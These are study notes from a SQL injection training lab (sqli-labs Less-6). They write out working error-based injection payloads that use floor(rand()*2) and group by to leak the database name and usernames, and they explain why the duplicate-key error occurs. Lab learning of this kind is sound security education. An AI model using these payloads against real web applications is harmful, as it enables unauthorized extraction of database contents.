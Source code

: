 # error

[http://127.0.0.1:8888/sqli/Less-6/?id=1](http://127.0.0.1:8888/sqli/Less-6/?id=1)' union select 1,count\(\*\),concat\(database\(\),\(floor \(rand\(\)\*2\)\)\) a from information\_schema.tables group by a --%20

![](../../.gitbook/assets/20190105204106938_1430315411.png)

count\(\*\) is required

if use `group by`. have to specify the table to queryg

## second step

?id=1' union select 1,count\(\*\),concat\(\(select username from security.users limit 0,1\), floor \(rand\(\)\*2\)\) from information\_schema.tables group by 3 --%20

take notice of \(\) in \(rand\(\)\*2\)

?id=1' union select 1,count\(\*\),concat\(\(select username limit 0,1\), floor \(rand\(\)\*2\)\) from security.users group by 3 --%20 won't work

this is because in the first one, \(select username from security.users limit 0,1\) is a fixed string like "admin" so, the second is equal to select 1,count\(_\),concat\('admin', floor \(rand\(\)\_2\)\) from XXX group by 3

HOWEVER \(select username limit 0,1\) is equal to just username SO, the second setence is equal to select 1,count\(_\),concat\(username, foor \(rand\(\)\_2\)\) from security.users group by 3

In this case, there would be several rows with **different** username column. NO duplicate group\_key may happen--&gt; NO error

## about group

group by a "column name"

![](../../.gitbook/assets/20190107115653026_505703806.png)

group by 2 means group by the second column, it got the same result as create variabel "a" and then group by a

if group by a column has rand\(\). It's very special. Because what "value" this column will have is unsure.

At usual time. If a column has value 0 or 1. the database will first find all rows that has value 0 in that column then find all rows has value 1 in that column

However, if the column has rand\(\), and group by exact that column first try to find all rows having 0 in that column then try to find all rows having 1 in that column !! And then may try to find rows having 1 in that column again because of unstable value.

In this case, an error will be thrown


